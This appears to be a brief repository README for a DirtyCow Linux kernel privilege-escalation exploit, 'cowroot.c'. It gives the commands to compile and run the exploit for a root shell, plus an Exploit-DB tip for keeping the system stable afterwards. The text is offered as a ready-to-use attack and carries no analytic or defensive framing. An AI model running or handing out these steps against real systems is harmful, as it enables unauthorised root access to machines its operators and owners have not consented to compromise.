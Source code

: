 # DirtyCow
Dirtycow exploit for both 32 and 64-bit 


* EDB-Note: After getting a shell, doing "echo 0 > /proc/sys/vm/dirty_writeback_centisecs" may make the system more stable.
 
* $ gcc cowroot.c -o cowroot -pthread
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs

